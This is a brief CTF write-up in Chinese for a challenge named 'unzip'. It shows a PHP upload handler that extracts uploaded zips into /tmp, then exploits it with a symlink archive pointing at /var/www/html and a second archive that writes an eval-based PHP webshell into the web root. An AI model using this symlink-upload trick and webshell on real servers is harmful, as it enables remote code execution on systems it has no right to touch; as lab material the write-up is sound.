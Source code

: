 tags:: [[CTFWEB/Zip]]

- # unzip
	- 上传zip，看到`upload.php`源码
		- ```php
		  <?php
		  error_reporting(0);
		  highlight_file(__FILE__);
		  
		  $finfo = finfo_open(FILEINFO_MIME_TYPE);
		  if (finfo_file($finfo, $_FILES["file"]["tmp_name"]) === 'application/zip'){
		      exec('cd /tmp && unzip -o ' . $_FILES["file"]["tmp_name"]);
		  };
		  ```
	- 我们可以使用zip创建软链接并向软链接中写入文件
	- 首先考虑将`/var/www/html`文件夹软链接到`/tmp`文件夹中
		- ```shell
		  # cube @ fedora in /tmp .venv [10:33:12] 
		  $ ln -s /var/www/html/ html          
		  (.venv) 
		  # cube @ fedora in /tmp .venv [10:33:23] C:130
		  $ zip --symlinks archive.zip html
		  ```
		- 上传archive.php即可
	- 然后将`html/test.php`写入archive.zip
		- ```shell
		  # cube @ fedora in /tmp .venv [10:36:43] C:1
		  $ echo '<?php eval($_POST["data"]);?>' | sudo tee html/test.php
		  [sudo] cube 的密码：
		  <?php eval($_POST["data"]);?>
		  (.venv) 
		  # cube @ fedora in /tmp .venv [10:36:49] 
		  $ zip archive.zip html/test.php
		  updating: html/test.php (stored 0%)
		  ```
	- 最后访问`test.php`即可得到webshell